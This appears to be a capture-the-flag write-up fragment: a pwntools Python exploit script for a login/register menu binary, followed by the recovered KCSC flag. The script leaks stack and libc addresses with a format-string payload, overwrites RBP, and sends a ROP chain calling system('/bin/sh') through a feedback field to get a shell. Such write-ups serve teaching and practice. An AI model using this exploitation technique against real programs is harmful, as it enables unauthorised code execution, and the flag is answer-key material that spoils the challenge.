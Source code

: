 ```python
    sla(b"> ", b"1")
    sla(b"Username: ", username.encode("utf8"))
    sla(b"Password: ", str(password).encode("utf8"))

def register(username, password, fullname): 
    sla(b"> ", b"2")
    sla(b"New username: ", username.encode("utf8"))
    sla(b"New password: ", str(password).encode("utf8"))
    sla(b"Your full name: ", fullname)

def info():
    sla(b"> ", b"3")

def logout(feedback): 
    sla(b"> ", b"4")
    sla(b"Please leave a feedback: ", feedback)

# debug()

# Leak stack + libc 
payload = b"%6$p|%29$p|"
register("hacker", 123, payload)
login("hacker", 123) 
info()

data_leak  = rl().strip().split(b"|")
stack_leak = int(data_leak[0], 16)
libc_leak  = int(data_leak[1], 16) 
libc_base  = libc_leak - libc.symbols["puts"] - 0x01fa

log.info(f"stack leak = {hex(stack_leak)}")
log.info(f"libc leak = {hex(libc_leak)}")
log.info(f"libc base = {hex(libc_base)}")

logout(b"new_feedback")

# Change RBP
fake_rbp = stack_leak - 0xd0 
log.info(f"fake rbp = {hex(fake_rbp)}")

payload = f"%{fake_rbp & 0xFFFF}c%6$hn"
register("hacker", 123, payload)
login("hacker", 123) 
info()

# Build ropchain 
binsh  = libc_base + next(libc.search(b"/bin/sh\x00"))
system = libc_base + libc.symbols["system"]
poprdi = libc_base + 0x240e5
ret    = poprdi + 1

payload = b"a"*72 + p64(ret) + p64(poprdi) + p64(binsh) + p64(system)
logout(payload) 

p.interactive() 
```
Flag thu được là `KCSC{st1ll_buff3r_0v3rfl0w_wh3n_h4s_c4n4ry?!?}`
